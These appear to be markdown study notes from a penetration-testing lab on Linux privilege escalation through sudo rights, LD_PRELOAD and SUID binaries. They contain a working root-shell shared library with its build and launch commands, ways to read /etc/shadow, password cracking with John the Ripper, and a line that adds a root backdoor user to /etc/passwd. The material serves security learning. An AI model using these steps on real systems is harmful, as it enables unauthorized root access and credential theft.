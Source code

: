 ## Privilege Escalation: Sudo

- This one of the first step to do, when you get access to the machine just simpley run `"sudo -l"`, which lists all the files that we can run as root without any password
- https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.
- Leverage Application Functions:
    * `Apache2` has an option that supports loading alternative configuration files (`-f`: specify an alterate ServerConfigFile).
    *  Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file
- Leverage LD_PRELOAD:
    * On some systems, you may see the LD_PRELOAD environment option. When we type `sudo -l`.
    * `env_keep+=LD_PRELOAD`
    * LD_PRELOAD is a function that allows any program to use shared libraries.
    * If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run.
    * Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.
 The steps of this privilege escalation vector can be summarized as follows;
    1. Check for LD_PRELOAD (with the env_keep option)
    2. Write a simple C code compiled as a share object (.so extension) file
    3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
 The C code will simply spawn a root shell and can be written as follows;
 ```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
- `gcc -fPIC -shared -o shell.so shell.c -nostartfiles` 
We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.
- `sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
This will result in a shell spawn with root privileges.

## Privilege Escalation: SUID

- `find / -type f -perm -04000 -ls 2>/dev/null` will list flies that have SUID or SGID bits set.
- compare executables on the list with GTFOBins (https://gtfobins.github.io) or link for a pre-filtered list (https://gtfobins.github.io/#+suid).
- The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege. Nano is owned by root
1. reading `/etc/shadow` file and `/etc/passwd` file:
    - We can now use the unshadow tool to create a file crackable by John the Ripper.
    - `unshadow passwd.txt shadow.txt > passwords.txt`
    - `john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt`
    - With the correct wordlist and a little luck, John the Ripper can return one or several passwords in cleartext.
2. add a new user that has root privileges in `/etc/passwd` file
    - `openssl passwd -1 -salt THM password1` creating a new md5 hash password.
    - `hacker:$1$THM$WnbwlliCqxFRQepUTCkUT1:0:0:root:/root:/bin/bash` add to the passwd file.
